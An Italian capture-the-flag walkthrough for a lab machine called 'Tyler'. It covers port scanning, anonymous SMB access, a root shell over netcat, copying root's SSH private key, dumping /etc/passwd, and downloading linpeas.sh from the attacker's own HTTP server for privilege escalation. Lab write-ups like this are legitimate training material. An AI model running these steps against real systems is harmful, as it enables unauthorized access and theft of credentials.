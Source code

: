 # Tyler

## enum
partiamo con una enumerazione e scan dei serizi


```bash
nmap tyler.thm -sV -sC 
```
ed ecco spuntare a schermo la porta 445

coleghiamoci e vediamo cosa ci offre

## SMB

```bash
smbclient -L \\\\tyler.thm\\
```

guardiamo se collegandoci in anonimo in tutte e tre le directory abbiamo qualche hint
```bash
smbclient \\\\tyler.thm\\public
```

ecco la prima flag il file alert invece nulla di interessante. bene...cambiamo approccio

```bash
nmap tyler.thm -p-
```

ecco un altra porta 6555

## porta 6555

```bash
nc tyler.thm 6555
```
molto bene....abbiamo un accesso come root!!! entriamo nella cartella root ecco davanti a noi un altra flag

ma non abbiamo il file king.txt??

controlliamo meglio dall'ssh

```bash
cd /root/.ssh
cat id_rsa.pub

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+0qTaj8PluXd4pyYNMGPLbP2ZTwh4I8hVCNnkzaL7oXXbZolVtehOCawy+DOgnccIEHUqMgEvOEEs+2u/+UpWxL7t1QSnyLvMrMKAnLXBQDzr2uJx7Ljhli8wv7nIX83EcpzU7M2bViGGpXhxOAQa6Ud7pRVXekh71qZI22I7Zg/NPPSzsMbm0CQrJ9Q+J2kugu/EK4VQsR1COMs+7ssd0gkHQ8PooLHr1+x4Trf+DRb/H02hjl1TaZ589CixlQQNUfHzLjXnnuE7qslcX8c6Oe7sv7e808M87ZokdhrifWZrfwCxaZ54D6xWYdSScYzMKqLh0HQxO3KokicRgTJx tdurden@tyler
```

ecco la soluzione probabilmente il root di tdurden è separato dalla macchina main 

```bash
cd /root/.ssh
cat id_rsa
```
prendiamo l'id_rsa e colleghiamoci in ssh

ricordatevi di dare i giusti permessi all'id_rsa sulla vostra macchina 

quindi 
```bash
chmod 600 id_rsa
```
successivamente 

```bash
ssh tdurden@tyler.thm -i id_rsa
```
facciamo un controllo degli utenti 

```bash
cat /etc/passwd
```
ecco l'output andiamo ad analizzarlo
```bash
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
tdurden:x:1000:1000:Tyler Durden:/home/tdurden:/bin/bash
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
narrator:x:1002:1002::/home/narrator:/bin/bash
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
nginx:x:997:994:Nginx web server:/var/lib/nginx:/sbin/nologin
mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
librenms:x:996:993::/opt/librenms:/bin/bash

```

si siamo sulla macchina main facciamo il privesc

## Privesc
andiamo su una cartella dove possiamo caricare file e carichiamo il programma linpeas.sh (scaricatevelo prima!!)

```bash
sulla nostra macchina nella cartella dove è presente linpeas.sh facciamo: python -m http.server 80
sulla macchina tyler invece: wget http://indirizzoipnostro/linpeas.sh
```
ora diamo i permessi di avvio a linpeas.sh
```bash
chmod +x linpeas.sh
```
